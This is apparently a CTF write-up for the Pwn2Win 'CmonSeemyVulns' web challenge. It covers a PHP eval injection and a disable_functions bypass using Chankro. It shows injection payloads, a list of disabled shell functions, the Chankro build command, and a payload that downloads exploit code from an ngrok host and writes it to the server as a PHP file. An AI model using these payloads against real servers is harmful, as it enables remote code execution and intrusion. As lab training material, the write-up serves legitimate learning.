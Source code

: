 ```yaml
---
title: Pwn2Win - CmonSeemyVulns - Writeup
tags: pwn2win web php disable_functions chankro
---
```


# Description

![2021-05-30_21-03](https://user-images.githubusercontent.com/84577967/120118699-267d5280-c194-11eb-8fae-0fec1de1b704.png)

We were given the source code and the Dockerfile, we can build it locally and work on it directly on our own system.

[c_mon_see_my_vulns](https://github.com/ab2pentest/ctfwriteups/files/6566856/c_mon_see_my_vulns_70097e678d572b03e8098868191037f5c3518ca4a8d0512573845db8a293a153.tar.gz)

# Code Review

![2021-05-30_20-54](https://user-images.githubusercontent.com/84577967/120118712-31d07e00-c194-11eb-9ca7-dea97992fbed.png)

Snipped code from: index.php (Only PHP Part !)

![code](https://user-images.githubusercontent.com/84577967/174141852-b43da8d4-6069-43a4-a93f-406eb0b44b37.png)

The 7th line of the code appears to contain an `eval` function that is called within the `do_calcs` function. 
This function is called in line 17 of the code. Before we can examine this further, we need to check the 4th line of the code, which appears to contain a regular expression pattern. 
This suggests that our PHP code must be placed within {% raw %}`{{PHP EVAL CODE}}`{% endraw %} in order to be evaluated properly.

# Solution

Let's try to send a simple payload {% raw %}`200,{{phpinfo()}}`{% endraw %}

This simple `phpinfo` function is going to be executed

![2021-05-30_21-11](https://user-images.githubusercontent.com/84577967/120118671-fdf55880-c193-11eb-9db9-0f1846e00f00.png)

But if we take a look on the disabled functions list, we see a list of functions that are restricted or not available for use.

```
exec,system,passthru,shell_exec,escapeshellarg,escapeshellcmd,proc_close,proc_open,dl,popen,show_source,posix_kill,posix_mkfifo,posix_getpwuid,posix_setpgid,posix_setsid,posix_setuid,posix_setgid,posix_seteuid,posix_setegid,posix_uname,pcntl_exec,expect_popen
```

In cases where we need to bypass disabled functions, we can use [Chankro](https://github.com/TarlogicSecurity/Chankro)

First let's build our payload:

```bash
python2 chankro.py --arch 64 --input shell.sh --path /var/www/html --output exploit.txt
```

The shell.sh content:

```
#!/bin/sh
/readflag > /var/www/html/flag.txt
```

Now that we have saved the shell, we can host it on a local web server using PHP or Python.

{% raw %}
```
200,{{file_put_contents("/var/www/html/exploit.php",file_get_contents("http://XXXXXXXXX.ngrok.io/exploit.txt"),FILE_APPEND)}}
```
{% endraw %}

After that we can browser the file http://127.0.0.1:1337/exploit.php

# Flag

We should be able to retrieve the flag easily http://127.0.0.1:1337/flag.txt
